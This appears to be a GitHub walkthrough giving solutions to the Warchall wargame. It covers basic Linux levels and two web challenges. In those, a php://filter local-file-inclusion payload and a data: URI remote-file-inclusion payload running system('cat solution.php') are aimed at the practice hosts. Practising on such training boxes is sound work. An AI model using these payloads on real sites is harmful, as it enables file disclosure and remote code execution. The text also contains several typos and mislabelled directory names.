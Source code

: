 # Warchall

## Warchall - The Beginning

Congratulations! You are now on your way to becoming a Linux superhacker.

Create an SSH account using the form below. Then enter the six solutions for levels 0-5, separated by commas.

Example: "bitwarrior, Solution1, Solution2, Solution3, Solution4, Solution5"

Connect to the our count ssh,using this commande
ssh -p 19198 pseudo@warchall.net
```bash
  ssh -p 19198 freddy@warchall.net
```

### Level0
1- Use the ls command to display the contents of the current folder:
ls 
```bash
  ls
```

2- Show the contents of the WELCOME.md file using cat WELCOME.md:
```bash
  cat WELCOME.md
```

3- Navigate to the directory containing the challenge mentioned in the WELCOME.md file:
```
  /home/level/ or /home/user/freddy/level
```

4- Open the 00_WELCOME directory using the cd command and read the README.md file to find the solution:
```bash
  cd 00_WELCOME
  cat README.md
```
### Level1
1- Open the 01_choice_tree directory using cd:
```bash
  cd O1_choice_tree
```
2- Search for the file containing the solution using the du command:
```bash
  du
```
3- Open the directory using cd and read the file containing the solution using cat:
```bash
  cd ./blue/hats/grey/solution
  cat SOLUTION.txt
```

### Level2
1- Open the 02 directory using cd:
```bash
  cd O2
```
2- Search for all files in this directory using du -b -a:
```bash
  du -b -a
```
3- Open the solution directory using cd and read the solution file using cat:
```bash
  cd ./porb
  cat ./.solution
```

### Level3
1- Open the 03 directory using cd:
```bash
  cd O3
```
2- Show all files in this directory using du -b -a:
```bash
  du -b -a
```
3- Read the file ./.bash_history using the cat command:
```bash
  cat ./.bash_history
```

### Level4
1- Open the 04_kwisatz directory using cd:
```bash
  cd 04_kwisatz
```
2- Show the contents of this directory using ls and read the README.nfo file using cat:
```bash
  cat README.nfo
```
3- Go to the home directory using cd:
```bash
  cd 
```
4- Show all contents of this directory using du:
```bash
  du -b -a
```
5- Read the file containing the solution using cat:
```bash
  cat ./level/04_kwisatz/README2.md
```
### Level5
1- Open the 05_privacy directory using cd:
```bash
  cd 05_privacy
```
2- Show the contents of this directory using ls:
```bash
  ls
```
3- Read the README.md file using cat:
```bash
  cat README.md 
```
## Py-tong
### Level12
To solve this challenge, the following command is used: ./pytong <(echo foo)

./pytong: This is the execution of the pytong binary, which is the Python script to exploit
<: This is the redirection operator; it takes the output of the following command and uses it as input for ./pytong.
(echo foo): This generates the string "foo" and passes it as input to ./pytong
```bash
./pytong <(echo foo)
```
## Live LFI
One reason why I wanted the warchall box is to offer more realistic webhacking challenges.
You may now try the Live LFI challenge that is hosted on it.

### Level14
Your objective is to retrieve the content of the `solution.php` file using LFI. Follow the steps below to complete the challenge.

Visit the following link in the web browser:
```
https://lfi.warchall.net/index.php?lang=solution.php
```
Try using the LFI vulnerability by appending the following payload to the URL:
```
[php://filter/convert.base64-encode/resource=solution.php](https://lfi.warchall.net/?lang=php://filter/read=convert.base64-encode/resource=solution.php)
```
This payload utilizes the `php://filter` stream to encode the content of `solution.php` in base64.

Copy the encrypted base64-encoded text from the webpage and decode it using the following bash command in your terminal:
```bash
  echo "text_encrypted" | base64 -d
```

## Live RFI
https://rfi.warchall.net/index.php?lang=data:text/plain,%3C?php%20system(%22cat%20solution.php%22)?%3E.
